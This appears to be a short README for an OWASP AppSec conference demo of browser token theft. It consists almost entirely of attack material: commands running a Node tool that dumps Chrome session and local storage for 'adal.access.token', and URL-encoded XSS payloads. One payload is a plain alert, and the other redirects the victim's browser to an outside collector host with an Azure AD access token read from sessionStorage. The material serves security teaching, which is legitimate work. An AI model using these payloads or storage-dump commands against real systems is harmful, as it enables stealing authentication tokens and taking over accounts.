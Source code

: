 # Demo for OWASP AppSec

LocalStorage Dump Demo:

cd c:\Users\rafae\Developer\chromeStorageDump

node chromeStorageDump.js -k adal.access.token "C:\Users\rafae\AppData\Local\Google\Chrome\User Data\Default\Session Storage"
node chromeStorageDump.js -k adal.access.token "C:\Users\rafae\AppData\Local\Google\Chrome\User Data\Default\Local Storage\leveldb"

XSS Part 1: 

https://trashbin2.azurewebsites.net/1j4moaj1?inspect

https://messageb.azurewebsites.net/bypass?name=%3Ciframe%20src%3Djavascript:alert(%22Hi_OWASP_APPSEC%22)%3E%3Cp%3ERafael%3C%2Fp%3E%3C%2Fiframe%3E

XSS Part 2: 

https://messageb.azurewebsites.net/bypass?name=%3Ciframe%20src%3Djavascript:window.location.href%3D%27https:%2F%2Ftrashbin2.azurewebsites.net%2F1j4moaj1%3Ftoken%3D%27%2Bwindow.sessionStorage.getItem(%22adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e%22)%3E%3C%2Fiframe%3E